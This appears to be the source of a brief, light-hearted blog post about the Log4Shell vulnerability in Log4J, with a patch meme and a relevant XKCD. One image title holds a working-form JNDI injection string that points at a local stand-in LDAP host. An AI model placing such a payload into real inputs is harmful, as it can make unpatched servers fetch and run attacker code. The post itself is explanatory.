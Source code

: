 ```yaml
---
title: LOG4SHELL
repost_link: https://www.lunasec.io/docs/blog/log4j-zero-day/
---
```


Unless you were living under a rock late December 2021, I'm sure you've heard of this vulnerability. Rumored to be discovered by Minecraft script kiddies looking for ways to crash their friend's servers (later proved false), and found to be exploitable nearly everywhere Java ran (thanks to the popularity of Log4J), this was probably the biggest vulnerability of the year. And it needed to get patched during holiday season.

From [https://twitter.com/gossithedog/status/1469257750395985924](https://twitter.com/gossithedog/status/1469257750395985924):

> Vulnerability explained in patch and meme form.

<figure>
  <img
    src="https://static.wolfgirl.dev/cybersec/2021-12-10-1.jpg"
    alt="Git diff showing an added check for invalid JDNI URIs"
    title="Ah yes, my name is ${jndi:ldap://127.0.0.1:1337/pwned.php}"
    width="512"
  />
</figure>

<figure>
  <img
    src="https://static.wolfgirl.dev/cybersec/2021-12-10-2.png"
    alt="All modern digital infrastructure rests on a project some random person in nebraska has been thanklessly maintaining since 2003"
    title="Originally made for ImageMagick, but 1000% applicable here too"
    width="512"
  />
  <figcaption>
    There's always{" "}
    <a href="https://xkcd.com/2347/" rel="noopener" target="_blank">
      A relevant XKCD
    </a>
  </figcaption>
</figure>
